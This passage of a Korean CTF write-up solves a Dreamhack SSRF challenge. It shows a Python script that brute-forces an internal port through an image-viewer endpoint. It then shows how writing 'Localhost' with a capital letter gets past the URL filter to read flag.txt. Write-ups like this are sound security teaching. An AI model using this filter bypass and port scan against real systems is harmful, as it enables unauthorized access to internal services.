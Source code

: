 3. localhost의 alias 이용
    - URL에서 호스트와 스키마는 대소문자를 구분하지 않음 → localhost의 임의 문자를 대문자로 바꿔도 같은 호스트를 의미함


<br/><br/>

### 익스플로잇
1. 내부 서버는 포트 번호가 1500 이상 1800 이하인 임의 포트에서 실행되고 있으므로 포트 번호를 찾는 스크립트(ssrf_port.py)를 작성하여 브루트포스로 포트를 찾음
    ```python
    #!/usr/bin/python3

    import requests
    import sys
    from tqdm import tqdm

    # 'src' value of "NOT FOUND X" (페이지에서 기본적으로 제공하는 /static/dream.png를 입력하면 출력되는 <img> 태그의 src 값의 앞부분)
    NOTFOUND_IMG = "iVBORw0KG"

    def send_img(img_url):
        global chall_url

        data = {
            "url": img_url,
        }
        response = requests.post(chall_url, data=data)

        return response.text


    def find_port():
        for port in tqdm(range(1500, 1801)): # 포트 범위는 1500 이상 1800 이하이므로 반복문을 통해 포트 번호를 찾음
            img_url = f"http://Localhost:{port}"

            if NOTFOUND_IMG not in send_img(img_url): # 응답 결과에 NOTFOUND_IMG가 있으면 false, 없으면 true를 반환함
                print(f"Internal port number is: {port}")
                break

        return port


    if __name__ == "__main__":
        chall_port = int(sys.argv[1]) # 11485 (접속 정보 부분 확인 - 가변적)
        chall_url = f"http://host3.dreamhack.games:{chall_port}/img_viewer"

        internal_port = find_port()
    ```
    - ssrf_port.py 실행 결과 포트 번호 1564 획득
      <img width="736" alt="port_number" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/580902e6-19ba-4e10-9a6d-878aac255dd9">

2. 내부 HTTP 서버는 /app에서 실행되고 있으므로 해당 서버의 flag.txt를 읽기 위해 img_viewer 페이지에서 ```http://Localhost:1564/flag.txt```과 같이 입력하고 View 버튼을 클릭함
    - localhost의 alias를 이용하여 URL 필터링을 우회함 (localhost의 임의 문자를 대문자로 바꿈)
    <img width="922" alt="ssrf_exploit_2" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/8eb66b07-4ebf-4a47-8cab-4c0228a9b8fc">
